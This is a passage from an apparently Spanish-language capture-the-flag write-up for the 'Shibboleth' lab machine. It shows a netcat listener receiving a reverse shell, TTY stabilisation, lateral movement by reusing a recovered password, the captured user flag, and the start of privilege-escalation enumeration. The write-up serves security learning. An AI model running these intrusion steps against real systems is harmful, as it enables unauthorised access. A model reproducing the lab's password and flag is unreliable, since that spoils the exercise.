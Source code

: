 ```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.16.29] from (UNKNOWN) [10.10.11.124] 48474
/bin/sh: 0: can't access tty; job control turned off
$ whoami && id
zabbix
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
```

Hagamos el habitual tratamiento a la tty para poder movernos con comodidad por la shell.

```console
$ script /dev/null -c bash
Script started, file is /dev/null
zabbix@shibboleth:/$ ^Z
zsh: suspended  nc -nlvp 9999
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm
zabbix@shibboleth:/$ export TERM=xterm
zabbix@shibboleth:/$ export SHELL=bash
```

Veamos dónde tenemos la flag del usuario:

```console
zabbix@shibboleth:/$ find / -type f -name user.txt 2>/dev/null
/home/ipmi-svc/user.txt
zabbix@shibboleth:/$ cat /home/ipmi-svc/user.txt
cat: /home/ipmi-svc/user.txt: Permission denied
```

No tenemos permisos porque somos el usuario **`Zabbix`**, tenemos que pivotar al usuario **`ipmi-svc`**, podemos intentar reutilizar la contraseña que ya tenemos.

```console
zabbix@shibboleth:/$ su ipmi-svc
Password: ilovepumkinpie1
ipmi-svc@shibboleth:/$ cat ~/user.txt
d340117f259139ebfa467d1db7595e2a
```

## Escalada de Privilegios

Lo primero es comprobar si tenemos algún permiso a nivel de sudo, pero en este caso no tenemos ninguno:

```console
ipmi-svc@shibboleth:/$ sudo -l
[sudo] password for ipmi-svc: 
Sorry, user ipmi-svc may not run sudo on shibboleth.
ipmi-svc@shibboleth:/$ 
```

Busquemos algún binario SUID/GUID, pwnkit (pkexec), etc:
